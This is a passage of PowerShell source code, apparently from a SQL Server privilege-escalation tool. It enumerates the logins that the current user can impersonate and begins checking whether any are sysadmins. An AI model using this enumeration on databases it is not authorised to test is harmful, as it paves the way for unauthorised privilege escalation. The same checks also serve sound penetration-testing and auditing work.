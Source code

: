         # Execute query    
        $cmd = New-Object System.Data.SqlClient.SqlCommand($QueryDatabases,$conn)
        $results = $cmd.ExecuteReader()

        # Parse query results
        $TableImpUsers = New-Object System.Data.DataTable 
        $TableImpUsers.Load($results)

        # Check if any users can be impersonated
        if ($TableImpUsers.rows.count -eq 0){

        # Status user
        Write-Host "[*] Sorry, the current user doesn't have permissions to impersonate anyone." -foreground "red"
            Write-Host "[*] All done." 
            break
        }else{
            
            # Status user   
        $ImpUserCount = $TableImpUsers.rows.count      
        Write-Host "[*] Found $ImpUserCount users that can be impersonated:" 
        
        # Display users
            $TableImpUsers | foreach{
                $ImpUser = $_.name
                Write-Host "[*] - $ImpUser"
            }
        }

        # Close db connection
        $conn.Close() 

        # ----------------------------------------------------------------
        # Check if any of the users that can be impersonated are sysadmins
        # ----------------------------------------------------------------
        if ($TableImpUsers.rows.count -ne 0){   
